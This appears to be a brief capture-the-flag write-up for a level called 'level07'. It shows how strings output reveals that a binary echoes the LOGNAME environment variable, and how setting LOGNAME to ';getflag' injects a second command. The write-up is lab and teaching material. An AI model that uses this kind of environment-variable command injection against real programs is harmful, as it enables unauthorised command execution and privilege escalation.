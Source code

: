 <h1 align="center"> level07 </h1>

```shell
ls -la
```

We have one file:
```level07```

```shell
strings level07
```
The important lines:
```
LOGNAME
/bin/echo %s
```

We can try to modify the env var ```LOGNAME```
```
export LOGNAME="getflag"
```

```
./level07
```
But it print getflag, so the binary print the content of the env var, we can try this:
```
export LOGNAME=";getflag"
```

It print the content of getflag command, it work !
